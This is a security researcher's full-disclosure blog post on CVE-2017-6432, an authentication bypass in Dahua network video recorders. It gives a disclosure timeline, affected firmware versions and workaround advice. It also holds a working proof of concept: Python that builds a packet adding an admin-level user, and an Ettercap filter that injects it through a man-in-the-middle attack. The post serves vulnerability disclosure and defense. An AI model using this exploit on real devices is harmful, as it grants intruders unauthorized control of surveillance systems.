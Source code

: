 ```yaml
---
layout: post
title:  "Dahua NVR - Auth Bypass - CVE-2017-6432"
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream

#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure

### The Hardware and Software

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  

As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)

This in turn, makes this connection vulnerable to both packet manipulation and packet injection.

The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  


### Proof of Concept


First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.


![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}


Now that we have our content, the following ettercap filter is used.  
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  

```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}

Now, Load this up into ettercap, do our magic, and have a peek at what happens

I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}

Yes, I should have to do something better than this... but I don't!

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}

Originally I did this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work

![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}


### Additional Notes

While this proof of concept is only for injecting a user, it could be used for much more.


### Workarounds

There are none, this is insecure by design.  
Until proper encryption is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  

### Vendor Response

Will update this when they do.  
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.

### Credits

Vulnerability discovered by Andrew Frahn (null_ku7)

### References

CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: [https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
